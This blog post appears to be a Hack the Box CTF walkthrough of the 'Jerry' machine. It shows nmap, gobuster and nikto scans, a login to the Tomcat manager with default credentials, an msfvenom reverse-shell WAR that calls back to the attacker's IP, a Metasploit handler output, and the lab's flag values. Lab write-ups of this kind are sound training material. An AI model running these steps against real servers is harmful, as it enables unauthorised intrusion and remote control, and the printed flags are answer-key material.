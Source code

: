 ```yaml
---
title: Jerry, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/jerry.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Jerry is an easy level HTB challenge from the HTB archives"
card: card-2
---
```


Jerry is an easy level HTB challenge from the HTB archives. The challenge involves basic CVE discovery through enumeration scans, and requires manual exploitation of the tomcat apache webserver. Overall this was a straightforward CTF challenge.  

## Enumeration  

First, I conducted a quick nmap scan of the top 200 ports to get a quick idea on the targets running services.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ nmap --top-ports 200 -Pn 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:43 EST
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).
Not shown: 199 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

The results showed an open webserver on port 8080. I started a more in-depth scan using the nmapAutomator script.  Output from the scan revealed the server was running the apache tomcat webserver, a technology used to run java servlets and other java web technologies.  The recon stage of the script used Gobuster to brute force  directories, which revealed the apache tomcat `/manager` path.  

```bash
---------------------Running Recon Commands----------------------
                                                                                                                                                           

Starting gobuster scan
                                                                                                                                                           
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     html,php
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2021/03/04 15:51:47 Starting gobuster
===============================================================
http://10.10.10.95:8080/aux (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs (Status: 302) [Size: 0]
http://10.10.10.95:8080/examples (Status: 302) [Size: 0]
http://10.10.10.95:8080/favicon.ico (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/lpt1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/lpt2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/nul (Status: 200) [Size: 0]
http://10.10.10.95:8080/prn (Status: 200) [Size: 0]
```  

## Password Cracking  

Upon visiting the manager URL, I was met with a basic HTTP authentication login form. From the eJPT course and certification exam, I already knew the default password for apache tomcat  was username:tomcat password:s3cret. Indeed, when I tried that combination it worked, showing the server was left secured with default credentials. This could also have been deduced using nikto, which also revealed the weak authentication.  

```bash
Starting nikto scan
                                                                                                                                                           
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2021-03-04 15:52:18 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-03-04 15:56:50 (GMT-5) (272 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

Finished nikto scan
                                                                                                                                                           
=========================
```  



After authenticating to the server, I found the manager application allowed the admin to upload a WAR file which would be executed by the server.   


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-04-jerry-hack-the-box-walkthrough/upload.png">
    </div>
</div>
<br/>  

## Payload Creation  

Using `msfvenom`, I created a reverse tcp shell payload to upload to the target server. Once executed, the payload would connect back to my attacker machine on port 4443.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.13 lport=4443 -f war -o pwn.war
Payload size: 13401 bytes
Final size of war file: 13401 bytes
Saved as: pwn.war
```  

Using the manager application, the payload was uploaded. 


## Catching a Reverse Shell  

Before triggering the payload, I used the multi/handler on `metasploit` to start a listener on my attacker machine to receive the reverse shell. Once the listener was started, I browsed to the location of the payload on the server, triggering the payload, and sending a reverse shell to my machine. 


```bash
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4443 
[*] Sending stage (3008420 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.13:4443 -> 127.0.0.1) at 2021-03-04 18:58:40 -0500
```    

## Finding the Flags  

To find the flags, I dropped into the shell and manually searched the target to find the flag files.   

```bash
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,601,940,480 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```



